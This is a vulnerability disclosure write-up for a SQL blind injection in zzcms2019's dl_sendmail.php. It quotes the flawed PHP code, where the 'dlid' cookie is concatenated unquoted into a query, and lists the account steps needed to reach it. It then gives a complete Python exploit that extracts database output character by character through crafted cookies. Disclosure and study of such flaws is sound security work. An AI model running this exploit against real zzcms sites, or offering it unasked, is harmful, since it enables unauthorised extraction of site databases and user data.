 # zzcms2019 SQL injection vulnerability in dl_sendmail.php

Build test environment locally to run zzcms2019

The vulnerability is at line 71 of /dl/dl_sendmail.php, and the key code is

```php
If (strpos (@ $_COOKIE [' dlid], ", ") > 0) {

$SQL ="select email from zzcms_dl where passed=1 and id in (".@$_COOKIE['dlid'].") order by id asc limit $n,$size";

} else {

$SQL ="select email from zzcms_dl where passed=1 and id='".@$_COOKIE['dlid']."'";

}
```


Here `"and id in (".@$_COOKIE['dlid'].")"`

No single quotation mark is used and no escape is needed, which results in the global escape of cookie of zzcms2019 is invalid and there is SQL blind injection vulnerability without single quotation mark


Conditions of use: the front desk register company type account, and then user center -> email/SMS content Settings -> add email/SMS content email -> set as the default


![](https://i.loli.net/2019/09/20/lauwfCdRtSGPg8U.png)

![](https://i.loli.net/2019/09/20/CkAaIcyzWTrRHUY.png)

The test does not require additional user group permissions


Page returns without cookie injection

![](https://i.loli.net/2019/09/20/ytlDVQoiM91bIK6.png)

Construct payload access /dl/dl_sendmail.php for cookie injection, when the page returns

![](https://i.loli.net/2019/09/20/Zg8f71JExNXhwmd.png)

The complete exp is as follows

```python
#coding: utf-8
import requests
import string

url = 'http://{}/dl/dl_sendmail.php'

#header 头，自己根据实际环境做修改
headers = {
'Host':'{}',
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:68.0) Gecko/20100101 Firefox/68.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded',
'Connection':'keep-alive',
'Cookie':'{}'
}

def Sqli(host,sql):
	global url
	global headers
	url = url.format(host)
	sqli = "ascii(substr(({}),{},1)))={}"
	sqli_2 = "0,(if((({}),1,0)))#"
	res_data = ""
	s = requests.session()
	i = 1
	while 1:
		tmp_data = res_data
		for c in string.printable:
			tmp_header = headers['Cookie']
			sqli_data = sqli_2.format(sqli.format(sql,str(i),ord(c)))
			headers['Cookie'] = headers['Cookie'] + "; dlid=" + sqli_data
			res = s.get(url, headers=headers)
			if "</html>" not in res.text: #自己根据实际环境做修改
				headers['Cookie'] = tmp_header
				res_data += c
				print (res_data)
				break
			headers['Cookie'] = tmp_header
		i += 1
		if tmp_data == res_data:
			print ('完成')
			return 

if __name__ == "__main__":
	#设置 host 地址
	host = "127.0.0.1:9000"
	#设置用户 cookie
	user_cookie = "PHPSESSID=dh6bhd10g47tjc4jlhqf2leqnn; UserName=test; PassWord=343b1c4a3ea721b2d640fc8700db0f36"
	sql = "select group_concat(user(),version(),@@version_compile_os)"
	headers['Host'] = headers['Host'].format(host)
	headers['Cookie'] = headers['Cookie'].format(user_cookie)
	Sqli(host,sql)
```

Exp run result

![](https://i.loli.net/2019/09/20/9eSCFL32M4rAyGE.png)
